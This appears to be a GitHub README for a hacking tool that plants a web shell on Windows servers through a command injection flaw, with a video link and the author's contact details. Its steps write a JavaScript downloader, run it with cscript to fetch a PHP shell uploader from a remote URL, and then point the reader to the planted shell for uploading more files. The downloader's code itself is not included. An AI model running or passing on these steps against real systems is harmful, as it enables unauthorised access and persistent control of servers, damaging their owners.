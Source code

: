 # Windows Command injection Shell Uploader
Upload shell in windows server using command injection vulnerbility.

# Steps

* echo put wget.js file code here >weget.js
* cscript /nologo weget.js http://localhost/wci_shell_uploader.php

After those two commands your get shell uploader at http://target.com/shell.php go on this link & upload your shell or files.

# Video

[![Video](https://i.imgur.com/WjJJT7D.png)](https://youtu.be/H5F93uEK7ME)

Youtube &npsp; : https://www.youtube.com/DigitalHackerOfficial<br/>
Facebook : https://www.facebook.com/DigitalHackerOfficial<br/>
Twitter &npsp; : https://twitter.com/Shehryar_DH<br/>
Google+ &npsp; &npsp; : https://plus.google.com/+DigitalHacker<br/>
Email &npsp; &npsp; &npsp; : digitalhacker07@gmail.com

